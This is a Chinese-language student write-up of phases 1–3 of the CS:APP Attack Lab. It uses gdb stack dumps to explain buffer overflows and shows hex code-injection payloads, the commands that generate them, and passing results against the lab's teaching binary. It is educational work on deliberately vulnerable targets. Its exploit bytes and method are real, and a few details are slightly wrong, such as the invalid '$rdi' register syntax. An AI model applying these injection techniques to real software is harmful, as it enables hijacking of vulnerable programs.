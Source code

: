 ## 实验说明
Note: This is the 64-bit successor to the 32-bit Buffer Lab. Students are given a pair of unique custom-generated x86-64 binary executables, called targets, that have buffer overflow bugs. One target is vulnerable to code injection attacks. The other is vulnerable to return-oriented programming attacks. Students are asked to modify the behavior of the targets by developing exploits based on either code injection or return-oriented programming. This lab teaches the students about the stack discipline and teaches them about the danger of writing code that is vulnerable to buffer overflow attacks.

## 实验准备
注意自己运行的话，要加上--q选项。
gdb 设置参数

```
(gdb) set args -q
```

查看断点
```
(gdb) i breakpoints
Num     Type           Disp Enb Address            What
1       breakpoint     keep y   0x00000000004011ad in main at main.c:97
        breakpoint already hit 1 time
3       breakpoint     keep y   0x0000000000401351 in main at /usr/include/x86_64-linux-gnu/bits/stdio2.h:105
```

## 实验过程
### phase_1
首先，进行注入式攻击的前提是了解过程调用时堆栈的变化过程。

将控制从函数P转移到函数Q时，需要简单地把程序计数器(PC)设置为Q的代码的起始位置。不过，当稍后从Q返回的时候，处理器必须记录好它需要继续P的执行的代码位置。在x86-64机器中，这个信息是用指令```call Q```调用Q来记录的。call指令将当前的指令地址A压入栈中，并将PC设置为Q的起始位置。压入堆栈中的地址A被称为返回地址，是紧跟在call指令后面那条指令的地址。对应的指令ret会从栈中弹出地址A，并把PC设置为A。

所以注入式攻击的实质，就是输入的字符串长度超过了缓存区的长度，并把rsp栈中的返回地址给覆盖掉，这样就可以操控程序被攻击代码所接管。

首先，我们进入test函数，并运行至调用```getbuf```函数前。在调用之前，首先我们检查一下rsp处栈的内容:
```
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    $0x8,%rsp
   0x000000000040196c <+4>:     mov    $0x0,%eax
=> 0x0000000000401971 <+9>:     callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:    mov    %eax,%edx
   0x0000000000401978 <+16>:    mov    $0x403188,%esi
   0x000000000040197d <+21>:    mov    $0x1,%edi
   0x0000000000401982 <+26>:    mov    $0x0,%eax
   0x0000000000401987 <+31>:    callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:    add    $0x8,%rsp
   0x0000000000401990 <+40>:    retq
End of assembler dump.

(gdb) disass
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    $0x8,%rsp
   0x000000000040196c <+4>:     mov    $0x0,%eax
=> 0x0000000000401971 <+9>:     callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:    mov    %eax,%edx
   0x0000000000401978 <+16>:    mov    $0x403188,%esi
   0x000000000040197d <+21>:    mov    $0x1,%edi
   0x0000000000401982 <+26>:    mov    $0x0,%eax
   0x0000000000401987 <+31>:    callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:    add    $0x8,%rsp
   0x0000000000401990 <+40>:    retq
End of assembler dump.
(gdb) x/16xw $rsp
0x5561dca8:     0x00000002      0x00000000      0x00401f24      0x00000000
0x5561dcb8:     0x00000000      0x00000000      0xf4f4f4f4      0xf4f4f4f4
0x5561dcc8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
0x5561dcd8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
```
然后，我们si进入```getbuf```函数，并检查此时堆栈的值，可以看到调用前的地址0x0040197已经入栈:
```
(gdb) disass
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
(gdb) x/16xw $rsp
0x5561dca0:     0x00401976      0x00000000      0x00000002      0x00000000
0x5561dcb0:     0x00401f24      0x00000000      0x00000000      0x00000000
0x5561dcc0:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
0x5561dcd0:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
```
缓存区的大小被设置为0x28,也就是当我们输入的数据超过这个范围后，就可以改写返回地址了。这里要注意，栈的增长方向是向下的，同时我们的数据是小端法表示的，所以对于touch_1的地址，我们输入字符串的末尾字符应为00 c0 17 40。通过实验提供的工具函数，我们得到我们攻击字符的表达
```
xxxx(40个字符)004017c0
```
这里用shell来生成这串字符，顺便练了练shell脚本
```
echo -ne '' > exploit.txt; for i in {1..10}; do echo -ne '63 63 63 63 ' >> exploit.txt; done; echo -ne 'c0 17 40 00' >> exploit.txt;
./hex2raw < exploit.txt > exploit_raw.txt
./ctarget -q -i exploit_raw.txt
```

实验结果
```
./ctarget -q -i exploit_raw.txt
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 C0 17 40 00
```

### phase_2
#### phase_2的建议项
Some Advice:
• You will want to position a byte representation of the address of your injected code in such a way that
ret instruction at the end of the code for getbuf will transfer control to it.
• Recall that the first argument to a function is passed in register %rdi.
• Your injected code should set the register to your cookie, and then use a ret instruction to transfer
control to the first instruction in touch2.
• Do not attempt to use jmp or call instructions in your exploit code. The encodings of destination
addresses for these instructions are difficult to formulate. Use ret instructions for all transfers of
control, even when you are not returning from a call.
• See the discussion in Appendix B on how to use tools to generate the byte-level representations of
instruction sequences.

发现cookie字段被存放在0x59b997fa处,放在rdx寄存器中

结合材料中的建议，我们设置攻击代码的表示为
```
mov $0x59b997fa, $rdi
ret 
```
转换为机器码
```
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	c3                   	retq
```
我们将这段代码放在缓存区栈顶，同时利用溢出攻击覆盖掉返回地址
```
48 c7 c7 fa 97 b9 59 c3 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 78 dc 61 55
```
同时，由于我们还需要返回到touch2函数，所以我们要延长攻击字符串长度，覆盖掉下一个返回地址。也就是当我们执行攻击代码的retq时，可以回到touch2函数中。
```
48 c7 c7 fa 97 b9 59 c3 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 78 dc 61 55 00 00 00 00 ec 17 40 00 00 00 00 00
```

实验结果，通过了
```
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 C3 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00 
```

### phase_3
实验三的解决方法类似于实验二，我们将输入的字符串放置在控制代码之前，注入攻击的代码形式为
```
   <cookie(59b997fa)>: 35 39 62 39 39 37 66 61
   <eol> 00 00 00 00 00 00 00 00
   0:	bf 78 dc 61 55       	mov    $0x5561dc78,%edi
   5:	c3                   	retq

```
然后我们需要修改，溢出攻击的第一个返回地址为mov指令所在位置；同时，由于我们还需要返回到touch3函数，所以我们还要利用溢出攻击覆盖掉返回地址。
```
35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 bf 78 dc 61 55 c3 00 00 00 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 88 dc 61 55 00 00 00 00 fa 18 40 00 00 00 00 00
```

最后成功通过这个测试
```
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 BF 78 DC 61 55 C3 00 00 00 63 63 63 63 63 63 63 63 63 63 63 63 63 63 63 88 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00
```